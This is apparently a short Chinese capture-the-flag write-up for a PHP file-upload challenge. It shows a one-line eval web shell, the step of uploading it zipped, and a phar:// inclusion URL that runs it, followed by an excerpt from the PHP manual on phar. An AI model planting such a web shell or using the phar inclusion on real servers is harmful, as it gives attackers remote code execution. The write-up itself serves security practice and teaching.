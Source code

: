 #PHP #文件上传

shell.php

```php
<?php eval(@$_POST['hack']); ?>
```

压缩文件为 shell.zip 并上传

利用 phar

```text
http://node1.anna.nssctf.cn:28192/index.php?bingdundun=phar://76ab8b96cd88e20eca5b3d23524285b4.zip/shell
```

此时访问 url ,用蚁剑连接，flag 在根目录下， \

[PHP: 简介 - Manual](https://www.php.net/manual/zh/intro.phar.php)

phar 扩展提供了一种将整个 PHP 应用程序放入单个叫做“phar”（PHP 归档）文件的方法，以便于分发和安装。
什么是 phar？phar 归档的最佳特征是可以将多个文件组合成一个文件。 因此，phar 归档提供了在单个文件中分发完整的 PHP 应用程序并无需将其解压缩到磁盘而直接运行文件的方法。此外，phar 归档可以像任何其他文件一样由 PHP 在命令行和 Web 服务器上执行。phar 有点像 PHP 应用程序的移动存储器。

phar:// — PHP 归档
